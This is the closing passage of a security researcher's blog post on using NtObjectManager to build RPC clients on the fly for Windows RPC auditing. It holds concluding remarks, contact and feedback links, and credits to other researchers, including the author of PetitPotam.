NtObjectManager is a powerful tool for RPC auditing and understanding. The ability to generate an RPC client dynamically (with no IDL file or MIDL compiler) and try out procedures on the fly is powerful. It doesn't mean you won't run into issues trying to troubleshoot a failed remote procedure call, but if it was easy, would it be fun?

I hope you have a better idea of the available RPC enumeration tools and perhaps a head start on your next RPC auditing adventure with NtObjectManager.

Please reach out [@clearbluejar](https://twitter.com/clearbluejar) with questions or comments. Also appreciate any [feedback or corrections](https://github.com/clearbluejar/clearbluejar.github.io/issues/new?assignees=&labels=&template=post-feedback.md&title=%5BFeedback%5D%20From%20NtObjectManager%20to%20PetitPotam) you might have for the post.

Cheers again to [@itm4n](https://twitter.com/itm4n) for inspiration, [@topotam](https://twitter.com/topotam77) for PetitPotam, and [@tiraniddo](https://twitter.com/tiraniddo) for NtObjectManager.

---

<sub>Cover photo by Leif Linding on Unsplash</sub>
